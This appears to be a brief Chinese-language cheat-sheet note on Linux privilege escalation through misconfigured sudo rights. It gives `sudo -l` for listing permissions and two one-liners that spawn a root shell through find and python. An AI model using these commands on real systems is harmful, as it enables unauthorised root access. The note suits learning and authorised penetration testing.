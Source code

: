 # sudo

- 能访问sudo的用户，可执行所有root权限的命令
- 利用错误配置的sudo权限提权
- 查看当前权限
  - `sudo -l`
- 可利用的方式
  - find: `sudo find /home -exec sh -i \; -quit`
  - python: `sudo python -c "import pty;pty.spawn('/bin/bash')"`